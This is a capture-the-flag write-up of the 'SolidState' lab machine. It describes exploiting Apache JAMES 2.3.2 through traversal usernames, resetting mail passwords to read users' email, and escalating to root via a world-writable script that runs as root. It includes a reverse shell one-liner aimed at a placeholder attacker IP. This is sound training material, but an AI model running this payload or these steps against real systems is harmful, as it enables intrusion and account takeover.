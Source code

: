# SolidState

## Summary

**Vulnerability Exploited:** Apache JAMES Sever 2.3.2 Authenticated User Remote Code Execution (CVE-2015-7611 / EDB 35513)

**Vulnerability Explanation:** JAMES allows users to be created with names that act as directory traversals. By creating a user with a name traversing to /etc/bash\_completion.d and sending a specially crafted email, an attacker can cause arbitrary code to be executed when a user logs in.

**Privilege Escalation Vulnerability:** /opt/tmp.py file misconfiguration

## Penetration

### User Flag

![](screenshots/nmap-tcp.png)

![](screenshots/nmap-tcp-all.png)

We see that Apache JAMES Server 2.3.2 is running. This server manages mail services such as SMTP and pop3\. There is a known remote code execution vulnerability for this version.

![](screenshots/searchsploit-james.png)

We can run the EDB 35513 exploit (modifying the payload to to 'bash -i \>& /dev/tcp/\<attacker ip\>/443 0\>&1'), but our payload won't actually execute until someone logs in via SSH.

![](screenshots/james-exploit.png)

In the meantime, let's explore the JAMES admin interface ourselves.

![](screenshots/james-login.png)

Resetting every user's password is not advisable during a real engagement, but now we can read all mail on the pop3 server. We find a plaintext password for mindy in one of her emails.

![](screenshots/john-mail.png)

![](screenshots/mindy-mail.png)

When we SSH as mindy, we launch the shell we injected with our earlier exploit. It may seem like we didn't gain much from using our exploit, but since mindy has a restricted login shell, this is actually the easiest way to bypass restrictions.

![](screenshots/mindy-proof.png)

### Root Flag

We find a misconfigured file /opt/tmp.py. Although the script runs every few minutes as root, everyone has permission to edit it.

![](screenshots/tmp-py-orig.png)

We can replace the script with our own to create a SUID version of /bin/sh.

![](screenshots/tmp-py-evil.png)

After the script runs again in the few minutes, we get root by executing the malicious copy of sh.

![](screenshots/root-proof.png)